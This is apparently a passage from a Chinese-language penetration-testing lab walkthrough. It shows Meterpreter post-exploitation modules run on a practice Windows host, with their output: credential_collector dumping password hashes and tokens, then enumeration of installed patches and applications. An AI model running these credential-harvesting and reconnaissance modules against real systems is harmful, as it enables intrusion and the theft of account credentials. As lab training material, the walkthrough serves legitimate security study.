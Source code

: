 - 查用用户信息，将密码离散值也弄出来了。密码离散值通过`hashdump`也可以获取
    
    ```python
    meterpreter > run post/windows/gather/credentials/credential_collector 
    
    [*] Running module against STU1
    [+] Collecting hashes...
        Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
        Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
        Extracted: liukaifeng01:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    [+] Collecting tokens...
        GOD\Administrator
        NT AUTHORITY\SYSTEM
        No tokens available
    ```
    
- 查看补丁信息
    
    ```python
    meterpreter > run post/windows/gather/enum_patches 
    [*] Running module against STU1 (192.168.75.186)
    Installed Patches
    =================
      HotFix ID  Install Date
      ---------  ------------
      KB2534111  8/25/2019
      KB2999226  9/15/2019
      KB958488   8/29/2019
      KB976902   11/21/2010
    ```
    
- 枚举靶机上安装的应用程序
    
    ```python
    meterpreter > run post/windows/gather/enum_applications 
    [*] Enumerating applications installed on STU1
    Installed Applications
    ======================
     Name                                                            Version
     ----                                                            -------
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148  9.0.30729.4148
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.4148  9.0.30729.4148
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161  9.0.30729.6161
     Microsoft Visual C++ 2008 Redistributable - x86 9.0.30729.6161  9.0.30729.6161
     Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005    12.0.21005.1
     Microsoft Visual C++ 2013 Redistributable (x86) - 12.0.21005    12.0.21005.1
     Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005   12.0.21005
     Microsoft Visual C++ 2013 x86 Additional Runtime - 12.0.21005   12.0.21005
     Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005      12.0.21005
     Microsoft Visual C++ 2013 x86 Minimum Runtime - 12.0.21005      12.0.21005
     Microsoft Visual C++ 2017 Redistributable (x86) - 14.16.27033   14.16.27033.0
     Microsoft Visual C++ 2017 Redistributable (x86) - 14.16.27033   14.16.27033.0
     Microsoft Visual C++ 2017 X86 Additional Runtime - 14.16.27033  14.16.27033
     Microsoft Visual C++ 2017 X86 Additional Runtime - 14.16.27033  14.16.27033
     Microsoft Visual C++ 2017 X86 Minimum Runtime - 14.16.27033     14.16.27033
     Microsoft Visual C++ 2017 X86 Minimum Runtime - 14.16.27033     14.16.27033
     Mozilla Firefox 69.0.1 (x86 zh-CN)                              69.0.1
     Mozilla Firefox 69.0.1 (x86 zh-CN)                              69.0.1
     Nmap 7.80                                                       7.80
     Nmap 7.80                                                       7.80
     Notepad++ (32-bit x86)                                          7.7.1
     Notepad++ (32-bit x86)                                          7.7.1
     Npcap 0.9983                                                    0.9983
     Npcap 0.9983                                                    0.9983
     WinPcap 4.1.3                                                   4.1.0.2980
     WinPcap 4.1.3                                                   4.1.0.2980
